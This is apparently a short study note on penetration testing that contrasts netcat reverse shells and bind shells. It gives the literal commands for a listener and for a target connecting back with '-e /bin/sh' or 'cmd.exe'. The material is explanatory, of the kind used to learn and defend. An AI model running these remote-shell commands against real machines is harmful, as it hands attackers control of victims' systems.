### Reverse Shell vs Bind Shell

Reverse Shell    This is the most common  
&ensp;	using a tool called `netcat`.  Reverse shell means we are making the victim computer connect to us.  
	![pic1](/Images/pic1.png)  
&ensp;	`nc -lvp 4444` this will start netcat `nc` to listen verbose on port `-lvp` 4444  
&ensp;&ensp;		Can also use -n to turn off DNS  
&ensp;	`nc 192.168.1.1 4444 -e /bin/sh` on the target instructs netcat `nc` to connect to 192.168.1.1 on port 4444 and establish `-e` a shell `/bin/sh` for linux (or `cmd.exe` on a Windows device)


Bind Shell  
&ensp;	Works like a reverse shell but backwards.  We open a port on the target machine and then connect to it from our machine.  
	![pic2](/Images/pic2.png)  
&ensp;	Syntax options are the same, just running them pretty much backwards from a Reverse Shell.  

Reverse shells will mostly be used for internal testing.  Bind shells can come in handy though.  The victim will always be running the `-e /bin/bash` or `-e cmd.exe` no matter which shell you use.